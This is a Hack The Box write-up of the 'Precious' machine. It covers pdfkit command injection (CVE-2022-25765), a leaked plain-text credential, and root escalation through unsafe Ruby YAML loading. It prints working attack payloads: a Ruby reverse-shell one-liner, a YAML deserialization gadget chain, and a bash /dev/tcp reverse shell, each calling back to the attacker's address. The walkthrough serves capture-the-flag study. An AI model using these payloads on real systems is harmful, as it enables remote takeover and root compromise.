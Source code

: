 ```yaml
---
title: Precious
author: siresire
date: 2024-04-24 12:10:00 +0800
categories: [Hackthebox,Linux Fundamentals,Easy]
tags: [pdfkit,CI,Ruby,CVE]
render_with_liquid: false
---
```


# Machine abstract

This Linux system hosts a web application capable of generating PDF files from websites using pdfkit. Unfortunately, a vulnerability in pdfkit exposes the application to Command Injection, potentially leading to Remote Code Execution (RCE).Once in the machone a plaintext password is stored in a user's home directory, posing a risk for lateral movement to other users on the system.The other user had permissions to execute a vulnerable Ruby script lacks password protection but requires a YAML file containing a payload granting root privileges to this user.


## Skills Learned
- Command Injection (Command Injection in pdfkit )
- Analysing and identifying vulnerable Ruby code


# Enumeration
## nmap

```nmap
┌──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Precious]
└─# cat nmap.scans            
# Nmap 7.94 scan initiated Wed Apr 24 20:10:23 2024 as: nmap -vv -sV -oN nmap.scans 10.10.11.189
Nmap scan report for precious.htb (10.10.11.189)
Host is up, received reset ttl 63 (0.25s latency).
Scanned at 2024-04-24 20:10:25 EAT for 13s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 24 20:10:38 2024 -- 1 IP address (1 host up) scanned in 15.03 seconds
```

There were 2 ports open , port 22 and port 80 

## HTTP

With port 80, it seems like a webpage that convert web urls to pdf 

![Alt text](/assets/img/htb/Precious/p1.png)

When you try to analyze the response of the pdf , it exposes the technology behind and the version number `pdfkit v0.8.6` and the server behind it `X-Runtime: Ruby`

![Alt text](/assets/img/htb/Precious/p2.png)

Running exiftool on the downloaded pdf, it was also exposing the version number `pdfkit`

```nmap
┌──(root㉿kali)-[/home/sire/Desktop]
└─# exiftool 7kt7ndnvrj7uh353nujyz93b808h4nrh.pdf 
ExifTool Version Number         : 12.63
File Name                       : 7kt7ndnvrj7uh353nujyz93b808h4nrh.pdf
Directory                       : .
File Size                       : 4.6 kB
File Modification Date/Time     : 2024:04:24 20:22:44+03:00
File Access Date/Time           : 2024:04:24 20:22:44+03:00
File Inode Change Date/Time     : 2024:04:24 20:22:44+03:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6

```

With this [PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) I was able to get command injection with curl

![Alt text](/assets/img/htb/Precious/p3.png)

 We successfully receive a callback on our HTTP server, verifying that we have RCE on the target machine.

 # Foothold
 Since the application was running on ruby, I tried using ruby payload to get a reverse shell with [revshell](https://www.revshells.com/) though I URL encoded it 

```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.17",4422))'
```

Started a Netcat listener on port 9001 and submit the payload on the web application using burp and successfully receive a shell as ruby ..


![Alt text](/assets/img/htb/Precious/p4.png)

# Lateral Movement
After stabilizing the shell I pocked around and a `.bundle` directory in user's home directory, which commonly hosts configuration files used by Gem and other Ruby repositories.Inside the aforementioned directory, we can find a config file which reveals some plain-text credentials for the henry user. This configuration file typically stores bundler options, allowing users to save their credentials for each Gem source. 

![Alt text](/assets/img/htb/Precious/p5.png)

# Privilege Escalation
When typing `sudo -l` we can see a command we can run as root without any privileges

![Alt text](/assets/img/htb/Precious/p6.png)

Checking the ruby file , U can see it requires a certain file 

```ruby
....

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
....

```

Runing the script, It requres the `dependencies.yml`

![Alt text](/assets/img/htb/Precious/p7.png)

Hunting for the dependencies.yml file, I found a sample folder with dependencies.yml and running the script, I got this 
```
henry@precious:/opt/sample$ /usr/bin/ruby /opt/update_dependencies.rb
Installed version differs from the one specified in file: yaml
Installed version is equals to the one specified in file: pdfkit
henry@precious:/opt/sample$ 
```

So this module provides a Ruby interface for data serialization in YAML format. Do not use YAML to load untrusted data. Doing so is unsafe and could allow malicious input to execute arbitrary code inside your application. Please see doc/security.rdoc for more information.
A search for Ruby deserialisation yields a popular [repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md), hosting an array of payloads useful for our
practices; they are all bound to versions between 2.0 and 3.0 , so we first check what version the target
machine is running.

```ruby
henry@precious:/opt/sample$ ruby -v
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

And this this version seems vulnerabl  to this payload:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

![Alt text](/assets/img/htb/Precious/p8.png)


With a bash paload `bash -c "bash -i >& /dev/tcp/10.10.14.17/4444 0>&1"` I was able to get a connection back with root 
privileges

```nmap
.... 
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: bash -c "bash -i >& /dev/tcp/10.10.14.17/4444 0>&1"
         method_id: :resolve

...
```

After running the script, I was able to get a reverse shell back as root

![Alt text](/assets/img/htb/Precious/p9.png)


 ## 🐞  CVE-2022-25765